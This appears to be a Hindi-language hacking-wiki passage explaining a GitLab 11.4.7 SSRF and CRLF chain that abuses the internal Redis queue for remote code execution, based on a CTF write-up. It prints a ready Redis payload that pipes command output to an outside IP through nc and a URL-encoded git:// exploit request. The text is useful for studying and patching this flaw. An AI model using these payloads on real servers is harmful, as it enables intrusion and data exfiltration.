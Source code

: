 ### उदाहरण: Gitlab SSRF + CRLF से शेल

**Gitlab11.4.7** में एक **SSRF** दुर्बलता और एक **CRLF** मिला। **SSRF** दुर्बलता नए परियोजना बनाने के समय **URL से परियोजना आयात करने की क्षमता** में थी और इसके द्वारा एकांतरिक IP तक पहुंच दी जा सकती थी \[0:0:0:0:0:ffff:127.0.0.1] (यह 127.0.0.1 तक पहुंच करेगा), और **CRLF** vuln केवल **URL** में **%0D%0A** वर्ण जोड़कर उपयोग किया गया।

इसलिए, इन दुर्बलताओं का दुरुपयोग करके **Redis इंस्टेंस** के साथ बातचीत करना संभव था जो **gitlab** से **कतारें प्रबंधित करता है** और उन कतारों का दुरुपयोग करके **कोड निष्पादन प्राप्त** करना संभव था। Redis कतार दुरुपयोग पेलोड है:
```
multi
sadd resque:gitlab:queues system_hook_push
lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
exec
```
और **URL encode** अनुरोध **SSRF का दुरुपयोग** और **CRLF** का उपयोग करके `whoami` को निष्पादित करने और `nc` के माध्यम से आउटपुट भेजने के लिए है:
```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%20127%2E0%2E0%2E1%202222%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf123321.git
```
_किसी कारण से (जैसा कि इस जानकारी को लिए गया था जैसे_ [_https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/_](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) _में लिखा है) यह उत्पीड़न `git` योजना के साथ काम कर रहा था और `http` योजना के साथ नहीं।_

<figure><img src="../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

**HackenProof क्रिप्टो बग बाउंटी के लिए घर है।**

**देरी के बिना पुरस्कार प्राप्त करें**\
HackenProof बाउंटी केवल तब शुरू होती है जब उनके ग्राहक पुरस्कार बजट जमा करते हैं। आपको पुरस्कार उस बग के सत्यापित होने के बाद मिलेगा।
